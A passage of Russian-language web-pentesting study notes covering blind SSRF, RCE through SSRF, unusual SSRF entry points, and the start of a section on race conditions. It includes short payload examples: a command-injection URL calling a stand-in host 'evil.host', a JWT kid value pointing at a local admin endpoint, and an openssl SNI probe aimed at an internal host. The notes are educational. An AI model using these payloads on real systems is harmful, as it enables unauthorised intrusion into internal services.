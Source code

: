 ##### Cлепые (Blind)

- Атакующий не имеет возможности видеть ответ от внутреннего сервера
- Сложнее эксплуатировать
- Ценится и имеет критичность ниже
- Можно обнаружить попыткой инициирования соединения к подконтрольному серверу
- Внешние HTTP-запросы скорее всего будут заблокированы. Можно использовать DNS и иные протоколы (FTP)
- Также можно обнаружить временными задержками

### RCE в SSRF

- Инъекция команд в URL: `http://evil.host?c='whoami'`
- Использование (древнего) протокола gopher:// (Gopherus)

### Необычные места появления SSRF

- Праметр kid в JWT
	```
	{
	"kid":"http://127.0.0.1/admin?upgrade=username",
	...
	}
	```
- Передача части подконтрольного URL в запросе
- Перевод в нестандартные форматы данных (-> XML -> XXE)
- Заголовок Referrer (иногда используется для аналитики)
- Поле Server Name Indication (SNI) SSL-сертификата: 
	`openssl s_client -connect target.com:443 -servername "internal.host.com" -crlf`
- Рендер pdf

### Cheatsheats

- https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet
- https://www.thehacker.recipes/web/inputs/ssrf/
- https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html

# Race Conditions

> **Race Conditions (состояние гонки)** - распространённый тип уязвимости, тесно связанный с недостатками бизнес логики Они возникают, когда веб приложения обрабатывают запросы одновременно без релевантных мер защиты. Это может привести к одновремененному взаимодействию нескольких отельных потоков с одними и темит же данными, что приводит к коллизии, вызывающей непреднамеренное поведение приложения. Атака на состояние гонки использует тщательно рассчитанные по времени запросы для преднамеренной коллизии и использования этого непреднамеренного поведения во вредоносных целях

> Race window - когда отсылаем запросы, есть миллисекундное окно, когда возможен одновременный доступ к ресурсу. Данный промежуток называется **race window (временное окно)**
